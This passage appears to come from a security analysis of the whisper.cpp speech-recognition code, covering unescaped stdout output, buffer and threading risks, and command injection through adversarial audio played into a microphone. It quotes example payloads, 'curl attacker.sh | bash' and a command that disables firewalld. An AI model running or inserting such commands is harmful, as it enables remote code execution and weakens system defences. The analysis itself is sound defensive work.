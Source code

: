
## 💥 3.3 Vulnerable Output Vectors

### 🧨 `stdout` Stream: The Primary Exploit Point

The token output is not quoted, escaped, or encoded:

```cpp
std::cout << whisper_token_to_str(ctx, token.id);
```

#### Exploitable Output Example:

> `"reboot system; curl attacker.sh | bash"`

* Executed literally in Bash: allows arbitrary code execution.
* Also vulnerable to command termination, redirection, or subcommands.

---

## 🧮 3.4 Memory & Buffer Handling

### Unsafe Patterns

```cpp
char * buf = new char[1024 * 1024];
fread(buf, 1, 1024 * 1024, input);
```

* Large statically allocated buffers for audio ingestion
* Minimal checks for WAV headers or malformed samples

### Thread Race Conditions

* `whisper_full` spawns multiple threads to handle token streams
* Can cause data leakage or corruption if shared memory is used (esp. with PortAudio streaming)

> ⚠️ Adversarial audio can overrun expected token sequences or produce unusual concurrency patterns

---

## 🔄 3.5 Streaming Mode (Microphone via PortAudio)

```cpp
Pa_ReadStream(stream, buffer, FRAMES_PER_BUFFER);
```

* Reads mic input into `float buffer[]`
* Converts to `std::vector<float>` for model input

### Injection via Microphone Stream:

* Payload WAV played into microphone
* whisper transcribes:
  `"restart kubelet && systemctl disable firewalld"`

---